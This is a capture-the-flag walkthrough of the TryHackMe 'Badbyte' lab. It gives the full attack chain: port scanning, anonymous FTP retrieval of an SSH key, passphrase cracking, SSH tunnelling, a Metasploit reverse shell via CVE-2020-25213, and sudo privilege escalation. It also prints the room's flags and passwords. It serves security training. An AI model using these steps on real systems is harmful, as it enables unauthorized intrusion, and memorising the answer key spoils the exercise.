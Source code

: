 # Badbyte

{% embed url="https://tryhackme.com/room/badbyte" %}
https://tryhackme.com/room/badbyte
{% endembed %}

![](../../.gitbook/assets/Badbyte.png)

## Task 2 Reconnaissance

```bash
rustscan -a 10.10.99.160 -- -n -sVC
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 08-25-14.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 08-25-53.png>)

#### How many ports are open?

{% hint style="success" %}
`2`
{% endhint %}

#### What service is running on the lowest open port?

{% hint style="success" %}
`ssh`
{% endhint %}

#### What non-standard port is open?

{% hint style="success" %}
`30024`
{% endhint %}

#### What service is running on the non-standard port?

{% hint style="success" %}
`ftp`
{% endhint %}

## Task 3 Foothold

#### What username do we find during the enumeration process?

```bash
lftp -u anonymous, -p 30024 10.10.99.160
ftp > ls -lA
ftp > cat note.txt
ftp > get id_rsa
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 08-46-49.png>)

{% hint style="success" %}
`errorcauser`
{% endhint %}

#### What is the passphrase for the RSA private key?

```bash
chmod 400 id_rsa
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
ssh -i id_rsa errorcauser@10.10.99.160
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 08-48-58.png>)

{% hint style="success" %}
`cupcake`
{% endhint %}

## Task 4 Port Forwarding

#### What main TCP ports are listening on localhost?

```bash
vim /etc/proxychains4.conf
ssh -nNTD 1337 -i id_rsa errorcauser@10.10.99.160
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 08-57-57.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 08-59-02.png>)

```bash
proxychains nmap 127.0.0.1
ssh -nNTL 80:127.0.0.1:80 -i id_rsa errorcauser@10.10.99.160
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 09-06-56.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 09-16-30.png>)

{% hint style="success" %}
`80,3306`
{% endhint %}

#### What protocols are used for these ports?

{% hint style="success" %}
`http,mysql`
{% endhint %}

## Task 5 Web Exploitation

#### What CMS is running on the machine?

```bash
nmap -n -sVC -p 80 127.0.0.1
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 09-27-41.png>)

{% hint style="success" %}
`WordPress`
{% endhint %}

#### Can you find any vulnerable plugins?

```bash
nmap -n -p80 --script http-wordpress-enum \
     --script-args type="plugins",search-limit=1500 127.0.0.1
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 09-44-39.png>)

#### What is the CVE number for directory traversal vulnerability?

![](<../../.gitbook/assets/Screenshot from 2022-04-03 09-47-18.png>)

{% hint style="success" %}
`CVE-2020-11738`
{% endhint %}

#### What is the CVE number for remote code execution vulnerability?

![](<../../.gitbook/assets/Screenshot from 2022-04-03 09-48-22.png>)

{% hint style="success" %}
`CVE-2020-25213`
{% endhint %}

#### There is a metasploit module for the exploit. You can use it to get the reverse shell. If you are feeling lucky you can follow any POC( Proof of Concept).

```bash
msfconsole -q
msf > search CVE-2020-25213
msf > use 0
msf > set RHOSTS 127.0.0.1
msf > set LHOST 10.6.9.176
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 09-54-40.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 09-57-14.png>)

#### What is the name of user that was running CMS?

```bash
meterpreter > getuid
```

{% hint style="success" %}
`cth`
{% endhint %}

#### What is the user flag?

```bash
meterpreter > search -d / -f user.txt
meterpreter > cat //home/cth/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 10-00-24.png>)

{% hint style="success" %}
`THM{227906201d17d9c45aa93d0122ea1af7}`
{% endhint %}

## Task 6 Privilege Escalation

#### What is the user's **old** password?

```
meterpreter > shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
ls -lA /var/log
cat /var/log/bash.log
su - cth
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 10-04-57.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 10-05-35.png>)

{% hint style="success" %}
`G00dP@$sw0rd2020`
{% endhint %}

#### What is the root flag?

```bash
sudo -l
sudo cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 10-10-53.png>)

{% hint style="success" %}
`THM{ad485b44f63393b6a9225974909da5fa}`
{% endhint %}

## Reference

{% embed url="https://www.aldeid.com/wiki/Category:Penetration-testing/Wordpress" %}

{% embed url="https://cve.mitre.org/cve/search_cve_list.html" %}
